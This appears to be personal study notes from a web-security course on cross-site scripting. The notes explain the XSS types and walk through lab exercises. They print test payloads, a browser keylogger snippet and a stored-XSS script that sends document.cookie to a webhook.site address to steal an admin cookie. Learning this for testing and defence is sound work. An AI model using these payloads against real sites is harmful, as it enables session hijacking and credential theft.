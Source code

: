 ## XSS (Cross Site Scripting)

Cross site scripting, or XSS, is when you execute javascript into the victim's browser, often giving us control of the application for that user.

XSS is also very flexible and can be used to chain other issues together.

There are 3 main types:

Reflected - This is when the script is included in the response from a web server.  You send a request injecting some javascript and you get it back in the response. This is limited since you can really only do it to yourself.  However, you can use this as a base to test as well as possibly putting a url in the javascript and trying to get a user to click on it.   

Stored - This is where the injected javascript is stored on the database and then served to anyone that visits that site.  

DOM-based - Everything happens locally in the browser.  

### Testing

While in the browser, you hit CTRL + SHIFT + C and it should give you the dev tools for the web browser.  You can then go to the console and try a number of things.

![ScreenShot26.png](Images/ScreenShot26.png)

Here we try 3 payloads and all worked.

`alert()` gave us a popup  
`print()` opens the print window to print off the page  
`prompt()` as you can see opens an input window with the text that was put into the ()'s  

Using `alert()` in this manner is not recommended.  Not because you'll break something but because it may be blocked where other things aren't.  Use `print()` to open the print window or `prompt("message")` to test and see.

You can find more deets at `https://portswigger.net/research/alert-is-dead-long-live-print`

With XSS we can create a simple keylogger.

`function logKey(event){console.log(event.key)}`  
`document.addEventListener('keydown', logKey)`  

When we put these two lines in and then click back into the window and start typing, we get the key pressed showing up in the console.  We can change the `{console.log()}` part to a collection API or something similar in order to grab keystrokes and potentially passwords or other info typed in (credit card numbers, ss#'s, etc).

![ScreenShot27.png](Images/ScreenShot27.png)


### XSS 01 (Basic XXS)

![ScreenShot28.png](Images/ScreenShot28.png)

![ScreenShot29.png](Images/ScreenShot29.png)

Here we have a DOM based scripting attack.  We can tell this by opening the dev tools, looking at the network tab and seeing that there is no network traffic each time we submit an item.  Also, if you reload the page, you lose all the items placed into the list.

A common test payload is `<script>prompt(1)</script>` but when we submit that, we just get a blank bullet point.  The reason is we aren't actually loading that code.  If it were loading, it would execute, but if we refresh the page all those items go away and it's not executed (being a DOM based attack).

![ScreenShot30.png](Images/ScreenShot30.png)

So, we have to get creative with our payload.  Something like `<img src=x onerror="prompt(1)">` will try to load an image and when it does error out, since there is no image at /x on the server or anywhere reachable, it will run the `onerror` section of the code.

![ScreenShot31.png](Images/ScreenShot31.png)

As you can see on the page, the image fails to load, we even see the "broken image" item in the list.  But we get the prompt.  Success!

Now, let's see if we can get something else to pull up in the window.  By using `<img src=x onerror="window.location.href='https://tcm-sec.com'">` we can forward the site to any site we want (in this case `https://tcm-sec.com`).

### Stored XXS Attacks

Stored XXS is when the injected script is added to the page, like in a message board and adding a comment.  It's called stored cause it's stored on the server and anyone who loads that page will have that script run.  For example, if we come across a message board and the input is not properly sanitized, we can enter things like `<script>prompt(1)</script>` and if we refresh the page, we get the prompt window.  If we add another comment, we get the prompt window.  Every time that page loads, we will get the prompt window until an admin goes in and removes that post.

You can also test quickly with something like `<h1>Hello</h1>` and see if the text "Hello" comes back in the `h1` format.

To really be able to check this and make sure that it's not just storing the message in your session, you can use Firefox containers in order to have multiple accounts through different tabs to the same site.  That way you can test across accounts.

The challenge exercise involves a ticket submitting system that is vulnerable to attack (stored I believe) and it grabs an admin cookie without letting the user know.

You can use a site called webhook.site in order to give your payload something to point at.  Inserting `<script>var i=new Image; i.src="https://webhook.site/44******-****-****-****-********441c/?"+document.cookie;</script>` with the webhook.site address, along with the `/?` to make the cookie a parameter and then append (`+`) the cookie with `document.cookie`

When testing this in real world, you won't use sites like webhook.site.  You can spin up a webserver to catch traffic in a variety of ways that don't involve a public website that might collect user data.